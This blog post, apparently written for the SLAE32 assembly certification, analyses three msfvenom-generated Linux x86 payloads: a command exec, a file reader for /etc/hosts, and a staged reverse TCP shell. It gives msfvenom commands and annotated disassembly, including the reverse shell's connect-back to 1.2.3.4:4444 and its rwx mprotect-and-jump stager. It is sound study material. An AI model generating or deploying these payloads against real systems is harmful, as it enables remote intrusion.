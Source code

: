 ```yaml
---
layout: post
title:  SLAE32 Assignment 5 - msfvenom shellcode analysis
excerpt: analysis of code generated by msfvenom for payloads linux/x86/exec linux/x86/read_file linux/x86/shell/reverse_tcp_uuid
---
```


# author     : Sandro "guly" Zaccarini SLAE-1037
# purpose    : this program has been written for SLAE32 assignment 5
# license    : CC-BY-NC-SA

shellcode will be analyzed with ndisasm and libemu if possible, then with gdb to someway follow the flow.
i choose to analyze both basic commands and one reverse shell, the command i used to create payloads are:

>msfvenom -p linux/x86/exec CMD=/usr/bin/id -f raw > exec.raw
>msfvenom -p linux/x86/exec CMD=/usr/bin/id -f c > exec.c
>msfvenom -p linux/x86/exec CMD=/usr/bin/id > exec
>chmod + exec
>sctest -vvv -S -s 99999 -G exec.dot < exec
>dot -Tjpg exec.dot > exec.jpg

>msfvenom -p linux/x86/read_file PATH=/etc/hosts -f c > readfile.c
>msfvenom -p linux/x86/read_file PATH=/etc/hosts -f raw > readfile.raw
>msfvenom -p linux/x86/read_file PATH=/etc/hosts > readfile
>chmod +x readfile
>sctest -vvv -S -s 99999 -G readfile.dot < readfile
>dot -Tjpg readfile.dot > readfile.jpg

>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 -f c > reverse.c
>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 -f raw > reverse.raw
>msfvenom -p linux/x86/shell/reverse_tcp_uuid LHOST=1.2.3.4 LPORT=4444 > reverse
>chmod +x reverse
>sctest -vvv -S -s 99999 -G reverse.dot < reverse
>dot -Tjpg reverse.dot > reverse.jpg

because all the code is 32bit, i will use ndisasm -u to disasm.
about gdb, i choose to include a C file with msfvenom buf[] and recompile every time.
to break when shellcode is runt, you can b *&buf


## exec
ndisasm -u exec output and comments:

00000000  6A0B              push byte +0xb                             ;
00000002  58                pop eax                                    ; just place 0xb in eax
00000003  99                cdq                                        ; because eax is not negative, fills edx with 0
00000004  52                push edx                                   ; push 0x0 to esp (string terminator maybe?)
00000005  66682D63          push word 0x632d                           ; push -c to the stack
00000009  89E7              mov edi,esp                                ; move esp pointer to edi, i guess this will be an execve argument
0000000B  682F736800        push dword 0x68732f                        ; push hs/ (/sh)
00000010  682F62696E        push dword 0x6e69622f                      ; push nib/ (/bin/)
00000015  89E3              mov ebx,esp                                ; move esp pointer to ebx, esp holds: /bin/sh
00000017  52                push edx                                   ; push 0x0 because edx was nulled at 0x3
00000018  E80C000000        call 0x29                                  ; i liked a lot this call because it jumps to a non aligned code, fooling ndisasm and gdb
0000001D  2F                das                                        ; from here, useless junk until 0x29
0000001E  7573              jnz 0x93
00000020  722F              jc 0x51
00000022  62696E            bound ebp,[ecx+0x6e]
00000025  2F                das
00000026  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
0000002E  80                db 0x80

moving to gdb, i set 05_shellcode.c to include exec.c, compiled and runt
with b *&buf
i know that the call is at 0x29 from buf, so i take buf starting address
in gdb and add 0x29: "offending" code is at 0x56559069
because gdb/GEF can also print instruction, i just use x/i to see the
code:
gef➤  x/4i 0x56559069
   0x56559069 <buf+41>: push   edi
   0x5655906a <buf+42>: push   ebx
   0x5655906b <buf+43>: mov    ecx,esp
   0x5655906d <buf+45>: int    0x80
gef➤

i already know something about my registers:
eax => 0xb (execve syscall id)
ebx => pointer to /bin/sh
edi => pointer to -c, which is the arg
esp => has on top /usr/bin/id

i see that edi is pushed, so esp will be: -c /usr/bin/id
ebx is pushed again, to have actually /bin/sh -c /usr/bin/id
pointer to shell is moved to ecx, and syscall is executed

at first you could think libemu is useless to analyze this simple code
because there is just one execve and some basic reg manipulation, but
because
she *emulates* the code, she's not fooled with that call 0x29 and i've
could seen the right flow from call to push/push/mov/execve

both reading exec.c and disassembled code, we can see that there are a
lot of null bytes. this code will surely need optimization if used
during an active exploitation.

## readfile

libemu wasn't able to emulate anything here, i'll dig as extra mile in
the near future.
back to gdb/ndisasm, this is ndisasm -u readfile output with some
comment ordered to follow the flow easily:
00000000  EB36              jmp short 0x38          ; 1) cool, starting with a jump will surely simplify analysis...
00000002  B805000000        mov eax,0x5             ; 3) eax => 0x5 , syscall open call
00000007  5B                pop ebx                 ; 4) using gdb i'll confirm this, i guess ebx will hold a filename
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80                ; 5) do the actual call
0000000C  89C3              mov ebx,eax             ; 6) because syscall place retcode in eax, and for open it's the fd, he saves it to ebx
0000000E  B803000000        mov eax,0x3             ; 7) eax => 0x3 , if it will be used as a syscall would be read
00000013  89E7              mov edi,esp             ;
00000015  89F9              mov ecx,edi             ; 9) read wants a fd as input and a place to store read data
00000017  BA00100000        mov edx,0x1000          ;10) how much data to read
0000001C  CD80              int 0x80                ; 8) ok it's the syscall read
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80                ;11) fast forward, do a syscall write to STDOUT
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80                ;12) clean exit
00000038  E8C5FFFFFF        call 0x2                ; 2) ok, this time the code is aligned and i see what's going on. looks like jmp-call-pop technique
0000003D  2F                das                     ;13) from here we could see read filename => 2F6574632F686F737473 => /etc/hosts
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  686F737473        push dword 0x7374736f
00000047  00                db 0x00

on gdb, i want to confirm that the jmp-call-pop will return actually
/etc/hosts:
gdb ./readfile
b *&buf
r
c
n
si
and after → 0x56559047 <buf+7>          pop    ebx
we can see that now
$ebx   : 0x5655907d  →  "/etc/hosts"

both reading readfile.c and disassembled code, we can see that there are
a lot of null bytes. even if it's uncommon to read a file after an
active exploitation, this code would need optimization to remove null
bytes.

## reverse
as you can see in reverse.jpg , the flow is quite basic: create a socket, connect, do something. i already developed my own revshell and i think i'm familiar with the flow, so fastly to ndisasm:

00000000  6A0A              push byte +0xa
00000002  5E                pop esi                  ; put 0xa in esi, will use it to loop for reconnection in circa 0x2F
00000003  31DB              xor ebx,ebx
00000005  F7E3              mul ebx                  ; multiply ebx and eax, and put result in eax+edx. result in zeroing both eax and edx, because ebx has been zeroed in 0x3
00000007  53                push ebx
00000008  43                inc ebx
00000009  53                push ebx
0000000A  6A02              push byte +0x2           ; i remember doing almost the same 4 instruction to have 0,1,2  on the stack, which is common arg for a tcp reverse shell
0000000C  B066              mov al,0x66              ; and here we have socketcall socket
0000000E  89E1              mov ecx,esp              ; pointer to socket arg in ecx
00000010  CD80              int 0x80                 ; create the socket

00000012  97                xchg eax,edi             ; save socket fd in edi
00000013  5B                pop ebx                  ; top of stack is 0x2, put in ebx
00000014  6801020304        push dword 0x4030201     ; for connect, we need an ip address, translated it's 1.2.3.4
00000019  680200115C        push dword 0x5c110002    ; and a port, which is 0x5c11 => 0x115c => 4444
                                                     ; this push breaks the nullbyte requirement but it's cute because puts both port and 0x2 to have the struct full
0000001E  89E1              mov ecx,esp              ; put the pointer in ecx
00000020  6A66              push byte +0x66
00000022  58                pop eax                  ; in eax syscall for socketcall 0x66
00000023  50                push eax                 ; start preparing next syscall arg with address len
00000024  51                push ecx                 ; pointer to address struct 
00000025  57                push edi                 ; saved socket fd
00000026  89E1              mov ecx,esp              ; have pointer for
the whole struct in ecx
00000028  43                inc ebx                  ; ebx was 2, we
need 3 for the connect call
00000029  CD80              int 0x80                 ; do the connect

0000002B  85C0              test eax,eax             ; 0x29 return will be in eax, if 0 connection has been completed. test eax,eax sets SIGN flag if eax is negative
                                                     ; (most significant bit is >7f). will set SIGN to true if connect fails
0000002D  7944              jns 0x73                 ; if SIGN flag is not set, jumps to 0x73 which next "logic" step

0000002F  4E                dec esi                  ; if connection fails, try "esi times", when esi is 0xa (10)
00000030  7468              jz 0x9a                  ; as soon as esi is 0, jump to neat exit

00000032  68A2000000        push dword 0xa2          ; this will sleep 5 secs before to try again
00000037  58                pop eax
00000038  6A00              push byte +0x0
0000003A  6A05              push byte +0x5
0000003C  89E3              mov ebx,esp
0000003E  31C9              xor ecx,ecx
00000040  CD80              int 0x80

00000042  85C0              test eax,eax             ; eax is 0 because of nanosleep, so next jmp should always occur - or not just if nanosleep fails someway
00000044  79BD              jns 0x3                  ; jmp to buf+3, which is almost the start of the program
00000046  EB52              jmp short 0x9a           ; jmp to neat exit again

00000048  53                push ebx                 ; i bet this code won't be never reached
00000049  51                push ecx
0000004A  6A00              push byte +0x0
0000004C  6A10              push byte +0x10
0000004E  E810000000        call 0x63
00000053  91                xchg eax,ecx
00000054  21BDE454BC04      and [ebp+0x4bc54e4],edi
0000005A  6BA3C7A5C6FEA9    imul esp,[ebx-0x1395a39],byte -0x57
00000061  96                xchg eax,esi
00000062  2457              and al,0x57
00000064  89E1              mov ecx,esp
00000066  6A09              push byte +0x9
00000068  5B                pop ebx
00000069  6A66              push byte +0x66
0000006B  58                pop eax
0000006C  CD80              int 0x80
0000006E  83C410            add esp,byte +0x10
00000071  59                pop ecx
00000072  5B                pop ebx                  ; end of never-reached code?

00000073  B207              mov dl,0x7               ; 0x7 to dl doesn't say anything itself, seeing next syscall (0x7d at line 0x82) which is mprotect, we see that 0x7 will be "prot"
                                                     ; reading man mprotect we see that 0x7 means rwx
00000075  B900100000        mov ecx,0x1000           ; and ecx will hold size len, so make a full page rwx
0000007A  89E3              mov ebx,esp              ; move esp pointer to ebx, so mprotect knowns where to operate
0000007C  C1EB0C            shr ebx,byte 0xc         ; made useless by next one
0000007F  C1E30C            shl ebx,byte 0xc         ; makes useless prev one
00000082  B07D              mov al,0x7d              ; as said, mprotect syscall id
00000084  CD80              int 0x80

00000086  85C0              test eax,eax             ; like at 0x2B
00000088  7810              js 0x9a                  ; but jumps to 0x9a (exit) if mprotect returns a negative number therefore an error
0000008A  5B                pop ebx                  ; reading backward, se see that esp has on top socketfd: put in ebx. we can see it's a read syscall so we expect it will read from the socket itself
0000008B  89E1              mov ecx,esp              ; put esp to ecx.  read needs a pointer to a writable location, this means it will write to esp what she reads from the socket
0000008D  99                cdq                      ; eax is zero, so zero also edx to read unlimited bytes
0000008E  B60C              mov dh,0xc               ; edx will be 0xc
00000090  B003              mov al,0x3               ; read syscall
00000092  CD80              int 0x80

00000094  85C0              test eax,eax             ; because eax holds retcode, if zero sign flag will be unset if read doesn't return any error
00000096  7802              js 0x9a                  ; exit if any error
00000098  FFE1              jmp ecx                  ; jmp to received shellcode, executable because of mprotect

0000009A  B801000000        mov eax,0x1              ; neat exit
0000009F  BB01000000        mov ebx,0x1
000000A4  CD80              int 0x80


we see that libemu missed from the mprotect call afterwards, i bet it's
because of self protection.




This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

